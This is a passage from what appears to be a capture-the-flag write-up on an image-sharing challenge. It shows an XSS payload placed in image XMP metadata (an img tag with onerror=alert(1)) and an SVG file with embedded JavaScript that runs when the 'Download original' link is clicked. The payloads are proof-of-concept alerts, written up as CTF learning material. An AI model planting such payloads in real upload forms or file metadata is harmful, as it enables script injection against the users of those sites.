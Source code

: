 
```xml
<rdf:RDF xmlns:rdf='http://www.w3.org/1999/02/22-rdf-syntax-ns#'>
 <rdf:Description rdf:about=''
  xmlns:dc='http://purl.org/dc/elements/1.1/'>
  <dc:creator>
   <rdf:Seq>
    <rdf:li>&quot;&gt;&lt;img src=z onerror=alert(1)&gt;</rdf:li>
   </rdf:Seq>
  </dc:creator>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
```

<p>But then I realized that it accepts SVG as well, so question that came up is:<br></br>- Why didn't I try uploading SVG that contains JavaScript in the first place???<br></br>I converted my test.jpeg into test.svg, added a simple script with <code>alert("Boom")</code> inside of SVG and uploaded it.<br></br>

Next question:<br></br>

- Where the hell will this trigger?<br></br>
Well it was quite fishy that below the uploaded image they had a "Download Original" link and next to it: <b>(use save link target as)</b>. 
<br></br>
</p>


```html
<p><a href="/i/3cYVGRFEvLT9VoWx/jpg/orig">Download original</a> (use save link target as)</p>
```

<p>Clicked on download and my alert got triggered!</p>


<img src="https://github.com/0xhebi/BND-Recruitment-2021-CTF-Web-Security/blob/main/CatsUP!%20Image%20sharing%20service/screenshots/xss.png"/>
